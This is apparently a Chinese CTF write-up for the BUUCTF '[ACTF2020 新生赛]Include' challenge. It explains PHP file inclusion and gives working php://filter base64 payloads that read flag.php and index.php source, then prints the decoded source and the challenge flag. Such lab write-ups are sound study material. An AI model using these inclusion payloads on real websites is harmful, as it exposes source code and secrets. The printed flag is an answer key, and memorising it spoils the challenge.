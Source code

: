 <center>新生赛Include1</center>

[toc]







## 新生赛Include1

> 赛题 [buuctf](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)



### 1.讲解

> 主要看url可以看出文件包含相关
>
> 因为文件包含有一个特性，就是对于被包含的文件，`代码会直接执行`，不会显示，而非代码会直接显示出来，所以，对于这样的情况，我们可以把文件编码为不可以被执行的内容，就可以直接显示出来了，



### 2. 伪协议

> [php伪协议](https://blog.csdn.net/qq_51295677/article/details/123462929) 遇到文件包含需要读取源码可以使用php://filter协议，格式如下 

```shell
读：php://filter/resource=文件名
    # base64 加密读
php://filter/read=convert.base64-encode/resource=文件名
 
写：php://filter/resource=文件名&txt=文件内容
 
php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容
```



### 3.使用

> base64[base64](https://blog.csdn.net/wo541075754/article/details/81734770)在线编码  [在线base64](https://base64.us/)

```shell
# flag的源码
?file=php://filter/read=convert.base64-encode/resource=flag.php
?file=php://filter/read=convert.base64-encode/resource=index.php
```

> 通过base64解码出来就可以看到我们网址的源码了

```js
<?php
echo "Can you find out the flag?";
//flag{95d98028-64e5-4be3-8255-80285f0ba5dc}
```





### top 看到的网址 后面会整理到环境搭建篇

```shell
ctfer : https://book.nu1l.com/
```




